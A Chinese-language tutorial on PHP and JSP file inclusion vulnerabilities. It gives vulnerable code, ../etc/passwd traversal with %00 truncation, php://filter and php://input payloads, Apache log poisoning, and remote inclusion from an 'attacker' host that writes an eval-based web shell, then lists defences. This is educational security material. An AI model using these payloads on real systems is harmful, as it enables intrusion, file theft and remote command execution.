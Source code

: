 文件包含漏洞


文件包含之所以是漏洞，是因为它能产生漏洞，它包含了任意文件。文件包含可以分为本地文件包含和远程文件包含两种。这里要注意，文件包含本身不是漏洞，和文件上传一样，它本身不是漏洞，而只是攻击者利用了包含的特性，再加上了应用本身对文件控制不严，对include进来的文件不可控，最终造成了攻击者进行任意文件包含。顾名思义，本地文件包含就是通过URL将服务器本地的其他文件include进来。远程文件包含就是将远程服务器的文件include进来。最主要的是，包含进来的文件都以当前脚本文件解析，比如，我们当前测试系统是Apache加php环境，那么被include进来的文件，不管是什么类型，比如说图片，文本文档，这些文件被包含以后，都会被当做php脚本来解析。



什么是文件包含漏洞


服务器通过文件包含的特性，比如一些函数，去包含任意文件时，由于被包含进来的文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以去构造一个这样的文件，来达到攻击的目的。以下我们将以php为例，来进行讲解。

以PHP为例：

可用于包含的函数有：require、require_once、include、include_once

本地文件包含：php.ini配置

allow_url_fopen = On（默认开启）

 

我们一一对这几个函数的功能做一个介绍 

 

Include



当包含并运行指定文件时，包含的外部文件发生错误，系统会给出警告，但整个php文件还会继续执行。



Require



跟include唯一不同的是，当产生错误时，include下面继续运行，而require将停止运行。也就是说本身这个php文件会继续运行，但是require文件会停止运行。



include_once



和include没有什么区别，只是在导入函数之前先检测下该文件是否被include过，如果已经执行了一遍，那么久不在进行第二次的include操作。



require_once



同样和include_once是一样的道理，这里不做详细介绍。

另外，本地文件包含需要一个条件也就是php.ini配置，allow_url_fopen = On（默认开启）参数为on的时候，才能进行本地包含，但实际上我们的php默认就是开启的，因为我们应用里面本身就需要包含很多文件，那这个时候，如果不开启的话，包含会出错。







要想成功利用文件包含漏洞，需要满足下面两个条件：
1.include()等函数通过动态变量的方式引入需要包含的文件。
2.用户能够控制该动态变量

一、本地文件包含
[php] view plain copy
<?php  
$file = $_GET['file'];  
if (file_exists('/home/wwwrun'.$file.'.php'))  
{  
    include '/home/wwwrun'.$file.'.php';  
}  
?>  

假如用户控制$file的值为“../../etc/passwd”，那么这段代码相当于include '/home/wwwrun/../../etc/passwd.php'，而这个文件显然是不存在的。
需要用到字符串截断技巧：PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数。在连接字符串时，0字节（\x00）将作为字符串结束符。所以在这个地方，攻击者只要在最后加入一个0字节，就能截断file变量之后的字符串，即：../../etc/passwd\0，通过Web输入时，只需要UrlEncode，变成../../etc/passwd%00
“../../../”的方式又被称为“目录遍历”。可以通过配置PHP的open_basedir来限制，其作用是限制在某个特定目录下PHP能打开的文件。例如open_basedir = D:\soft\develop\env\\sites\www.a.com\,在windows下多个目录应当用分号隔开，在Linux下则用冒号隔开。

要解决文件包含漏洞，一种方式是使用枚举即一种白名单的方式。

二、远程文件包含
如果PHP的配置选项allow_url_include为ON的话，则include/require函数是可以加载远程文件的，这种漏洞被称为远程文件包含漏洞。
[php] view plain copy
require_once $basePath . '/action/m_share.php'  
攻击者可以构造如下的攻击URL /?param=http://attacker/phpshell.txt?
最终加载的代码实际上执行了 require_once 'http://attacker/phpshell.txt?/action/m_share.php'
问号后面的代码被解释成URL的querystring，也是一种“截断”，这是在利用远程文件包含漏洞时的常见技巧。同样的，%00也可以用做截断符号。

三、本地文件包含的利用技巧
1.读取敏感文件
访问URL：http://www.xxser.com/index.php?page=/etc/passwd
如果目标主机文件存在，并且有相应的权限，那么就可以读出文件的内容。反之，就会得到一个类似于;open_basedir restriction in effect的警告。
2.远程包含Shell
如果目标主机allow_url_fopen选项是激活的，就可以尝试远程包含一句话木马，如：http://www.attacker.com/echo.txt，代码如下：
<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[xxser]);?>");?>
访问：http://www.example.com/index.php?page=http://www.attacker.com/echo.txt。将会在index.php所在的目录下生成shell.php，内容为：
<?php eval($_POST[xxser]);?>
3.本地包含配合文件上传
假设已经上传一句话图片木马到服务器，路径为：/uploadfile/xxx.jpg
图片代码如下：<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[xxser]);?>");?>
访问URL：http://www.example.com/index.php?page=./uploadfile/xxx.jpg，包含这张图片，将会在index.php所在的目录下生成shell.php。
4.使用PHP封装协议
4.1 使用封装协议读取PHP文件
例子如下：http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
访问URL，得到经过Base64加密后的字符串，这段代码就是Base64加密过后的PHP源代码，解密后就可得到原本的“样貌”。
4.2 写入PHP文件
在allow_url_include为On时，构造URL：http://www.example.com/index.php?page=php://input，并且提交数据为：<?php system('net user');?>
会得到net user命令的结果。
5.包含Apache日志文件
本地文件包含的利用。
Apache有两个日志文件：access.log（访问日志）和error.log（错误日志）。
攻击者先访问http://www.example.com/<?php phpinfo();?>,操作这一步时，需要Burp，否则<,>,空格都会被转码。
随后访问http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
使用这种方式时，找到Apache的路径是关键。
6.截断包含
<?php
if(isset($_GET['page'])){
include $_GET['page'].".php";
}else{
include 'home.php';
}
?>
如果此时存在一个图片木马，名为1.jpg，可以输入如下URL：http://www.example.com/index.php?page=1.jpg%00
当然这种方法只适用于magic_quotes_gpc=Off的情况下。
7.绕过WAF防火墙
图片木马一般不会被web杀毒软件查出来。
四、防御方法
1.严格判断包含的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制；
2.路径限制：限制被包含的文件只能在某一文件夹内，一定要禁止目录跳转字符，如：“../”；
3.包含文件验证：验证被包含的文件是否是白名单中的一员；
4.尽量不要使用动态包含，可以在需要包含的页面固定写好，如：include("head.php");。

后记

include和require语句是相同的，除了错误处理方面：
reuqire会生成致命错误（E_COMPILE_ERROR）并停止脚本
include只生成错误报告（E_WARING），并且脚本会继续
require和require_once的差别是，require重复调用会多次加载你引用的文件，而require_once只加载一次，而不管你实际上调用了多少次，主要用于复杂的文件包含关系。
include和include_once的差别也可以以此类推。



JSP包含分两种方式：静态包含和动态包含。
一、静态包含
<%@include file="page.txt"%>为JSP的静态包含语句，静态包含语句先进行包含，再做处理操作。
JSP语法规定，include指令为静态包含，只允许包含一个已经存在于服务器中的文件，而不能使用变量来控制包含某个文件，
这就意味着使用include指令将不存在文件包含漏洞。
二、动态包含
<jsp:inclde page="page.txt"/>为动态包含语句，在运行时会先处理被包含页面，然后再包含，而且可以包含一个动态页面（变量）。
但在包含一个非JSP文件扩展名时，即使其内容符合JSP语法规范，也会只读取其源代码，而不会解析其JSP代码。
访问url：http://dnedh.com/jsp/GetHtml?fileName=./Web-info/web.xml&outName=out
out.html的内容是web.xml，但由于是一个合法的xml所以不会显示全部结果，但是可以查看源码来查看web.xml的内容，


安全编写包含
1.严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功是否的关键点就在于文件包含是否外部可控
2.路径限制，限制被包含的文件只能在某一个文件夹内
3.包含文件验证，验证被包含的文件是否白名单
4.尽量不要使用动态包含
